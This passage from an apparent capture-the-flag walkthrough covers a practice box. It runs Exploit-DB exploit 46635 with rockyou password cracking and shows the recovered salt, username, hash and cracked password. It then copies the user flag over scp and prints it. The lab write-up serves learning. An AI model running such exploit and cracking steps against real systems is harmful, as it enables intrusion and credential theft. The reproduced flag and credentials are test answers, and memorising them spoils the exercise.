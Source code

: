 	The exploit can also be downloaded from the [Exploit-DB](https://www.exploit-db.com/exploits/46635) website.

* ### Execution

	> python 46635.py -u http://$IP/simple/ --crack -w /usr/share/wordlists/rockyou.txt

	```
	[+] Salt for password found: 1dac0d92e9fa6bb2
	[+] Username found: mitch
	[+] Email found: admin@admin.com
	[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
	[+] Password cracked: secret
	```
	
**NOTE** - The exploit from exploit-db has gotten relatively old and hence this approach requires a loadfull of environment setup such as the explicit need of Python2 (most modern linux operating systems come with Python3 and doesn't allow a direct installation od Python2 as it is deprecated), pip2, and hence all other dependencies of Python2 and pip2. Also, this exploit takes comparatively more time in grabbing the username and password, whereas the initial approach does it in seconds (as the username can be guessed easily).


<br>

## Exploring current shell and file system:

* ### Executing commands

	> ls -l

	```
	-rw-rw-r-- 1 mitch mitch 19 aug 17  2019 user.txt
	```

	User flag found! Copying over to local machine.

	> scp -P 2222 mitch@$IP:~/user.txt .

	> cd /home && ls -la

	```
	drwxr-x---  3 mitch   mitch   4096 aug 19  2019 mitch
	drwxr-x--- 16 sunbath sunbath 4096 aug 19  2019 sunbath
	```


<br>

## User flag:

> cat user.txt

```
G00d j0b, keep up!
```


<br>
